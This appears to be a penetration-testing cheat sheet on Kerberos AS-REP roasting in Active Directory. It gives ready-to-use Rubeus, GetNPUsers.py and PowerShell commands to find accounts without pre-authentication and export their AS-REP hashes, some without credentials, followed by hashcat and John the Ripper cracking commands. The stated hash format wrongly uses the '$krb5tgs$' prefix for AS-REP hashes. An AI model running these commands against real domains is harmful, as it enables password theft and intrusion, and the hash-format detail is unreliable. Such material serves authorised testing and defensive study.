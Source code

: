 # Active Directory - Kerberos AS_REP roasting

### Overview

An ASP_REP roasting attack is an attack on the `Kerberos` authentication
protocol that involves compromising the password of an user account that do not
require `Kerberos` pre-authentication.

The attack is based on the fact that the `KRB_AS_REP` response, in reply from
the `KDC (Key Distribution Center)` for an initial authentication request
`KRB_AS_REQ` to the `Authentication Service (AS)`, contains ciphertext
encrypted using the client's secret key.

By default, the `KRB_AS_REQ` must include a timestamp encrypted with the
client's secret key, in order to permit the verification of the user identity
before the `KDC` returns a `KRB_AS_REP` response. This verification is omitted
for user accounts that do not require `Kerberos` pre-authentication, i.e
accounts with the account property `DONT_REQ_PREAUTH`. These user accounts
secrets are exposed to offline cracking, against the ciphertext, attack that
are much faster and can not be time restricted.

### Automated DONT_REQ_PREAUTH user accounts discovery and export of AS-REP responses

The following tools can be used to automate the discovery of user accounts that
do not require `Kerberos` pre-authentication and the request and export of
`KRB_AS_REQ` response for offline cracking.

In order to enumerate the domain user accounts, `Rubeus` / `GetNPUsers.py` must
be started in a domain authenticated security context or provided with working
domain credentials.

```
Rubeus.exe asreproast /outfile:<FILE>
Rubeus.exe asreproast /format:john /outfile:<FILE>

Rubeus.exe asreproast /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /outfile:<FILE_PATH>

# Will attempt to request a TGT for all users.
GetNPUsers.py -request <DOMAIN>/<USERNAME>[:<PASSWORD>]
```

### DONT_REQ_PREAUTH user accounts discovery

The following tools can be used to discover user accounts that do not require
`Kerberos` pre-authentication:

```
Get-ADUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"

Get-NetUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-NetUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
```

### Request and export of KRB_AS_REP responses

The following tools can be used to request and export `KRB_AS_REP` for user
accounts that do not require `Kerberos` pre-authentication.

The following operations do not require the knowledge of valid credentials.

```
Rubeus.exe asreproast /user:<USERNAME> /outfile:<FILE>
Rubeus.exe asreproast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /user:<USERNAME> /outfile:<FILE>

GetNPUsers.py '<DOMAIN>/' -usersfile <USERNAMES_FILE>
GetNPUsers.py '<DOMAIN>/' -dc-ip <DC_HOSTNAME | DC_IP> -usersfile <USERNAMES_FILE> -format john
```

### Offline cracking of KRB_AS_REP responses

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the `KRB_AS_REP` responses.

The hash needs to respect the following format to be recognized `hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*<USERNAME>@<DOMAIN>:$85DA[...]
```

Depending on the tool used, the hash retrieved may need to be manually updated.

The following commands can be used to crack the `KRB_AS_REP` responses:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 18200 -a 0 [-r <RULE_FILE>] '[<HASH> | <HASHFILE>]' <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```

--------------------------------------------------------------------------------

### References

https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/
https://tools.ietf.org/html/rfc4120#page-60
https://beta.hackndo.com/kerberos-asrep-roasting/
https://adsecurity.org/?p=227
